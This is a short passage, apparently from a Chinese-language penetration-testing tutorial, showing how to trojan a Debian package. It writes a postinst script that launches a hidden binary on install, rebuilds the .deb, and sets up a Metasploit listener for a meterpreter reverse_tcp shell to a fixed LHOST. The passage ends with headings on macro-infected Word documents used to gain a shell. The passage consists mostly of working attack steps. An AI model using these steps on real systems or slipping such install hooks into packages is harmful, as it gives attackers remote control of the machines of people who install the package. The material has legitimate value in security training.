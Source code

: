 ```shell
     
# 安装后脚本文件，来加载后门
	vim /root/free/DEBIAN/postinst 
	# 信息内容：
        #!/bin/bash
        sudo chmod 2755 /usr/games/freesweep_sources
        sudo /usr/games/freesweep_sources &
	# 设置权限
	chmod 755 /root/free/DEBIAN/postinst 
	
# 重新生成软件包
	dpkg-deb --build /root/free # 制作 deb 软件包
	
# 执行监听
	use exploit/multi/handler
	set payload linux/x64/meterpreter/reverse_tcp
	set LHOST 192.168.18.143
# 安装 deb  文件：
	dpkg -i free.deb
# 成功
```

### 5. 基于 JAVA 环境的漏洞环境

### 6. 利用宏感染 word 文档获取 shell
